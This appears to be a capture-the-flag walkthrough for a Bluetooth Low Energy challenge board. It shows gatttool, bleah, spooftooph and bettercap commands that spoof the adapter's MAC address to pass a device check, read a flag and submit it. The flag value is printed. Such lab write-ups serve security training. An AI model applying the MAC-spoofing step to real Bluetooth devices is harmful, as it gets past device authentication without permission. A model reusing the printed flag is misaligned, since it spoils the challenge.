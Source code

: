 +++
title = "Flag2"
date = 2021-10-18T20:39:54-06:00
weight = 40
+++


Here are the target devices for reference:

1. 08:3A:F2:7D:65:8A
2. 94:B9:7E:FA:27:72
3. 94:B9:7E:F9:21:B6
4. 94:B9:7E:FA:71:F2
5. 94:B9:7E:FA:2A:42
6. 4C:EB:D6:75:4E:B6
7. 94:B9:7E:DA:08:56

### Navigate to Flag 3 Challenge

Navigate to challenge 3 by writing `0x0003` to handle `0x0030`
```
gatttool -b 94:B9:7E:FA:27:72 --char-write-req -a 0x0030 -n 0003
```

⚠️ Retry the command and/or replugging in the dongle until we get the following message:
```
Characteristic Write Request failed: Request attribute has encountered an unlikely error
```

### View Gatt Table

Use `bleah` to enumerate its characteristics again.
```
$ sudo bleah -b 94:B9:7E:FA:27:72 -e
```

![images/bleah_flag_3.png](/static/bleah_flag_3.png)

We can see that it is looking for a device with the MAC address `11:22:33:44:55:66` to connect to it.

## View the Interface MAC Address

Use `hciconfig` to view the MAC address of the interface.

![images/bleah_flag_3.png](/static/bleah_flag_3.png)

### Spooftooph

We can spoof our mac address with the tool `spooftooph`. (Make sure to use `sudo`)
```
$ sudo spooftooph -i hci0 -a 11:22:33:44:55:66
```
![images/bleah_flag_3.png](/static/bleah_flag_3.png)


Once we have done this, we need to reset the interface for the changes to take.
```
$ sudo hciconfig hci0 reset
```
Now `hciconfig` should show the new MAC.

![images/bleah_flag_3.png](/static/bleah_flag_3.png)

### Read the Gatt Table with Spoofed MAC

Using `bettercap` with the spoofed MAC we can now read the flag: `0ad3fe0c58e0a47b8afb`.

![images/bleah_flag_3.png](/static/bleah_flag_3.png)

### Submit the Flag
Submit the flag with `gatttool`.

```bash
$ gatttool -b 94:B9:7E:FA:27:72 --char-write-req -a 0x002e -n $(echo -n "0ad3fe0c58e0a47b8afb" | xxd -ps)
Characteristic value was written successfully
```

### Check Your Score

Navigate to the scoreboard .

```bash
$ gatttool -b 94:B9:7E:FA:27:72 --char-write-req -a 0x0030 -n 0000
```
⚠️ Retry the command and/or replugging in the dongle until we get the following message:
```
Characteristic value was written successfully
```

Use bleah to check the scoreboard.
```
$ sudo bleah -b 94:B9:7E:FA:27:72 -e
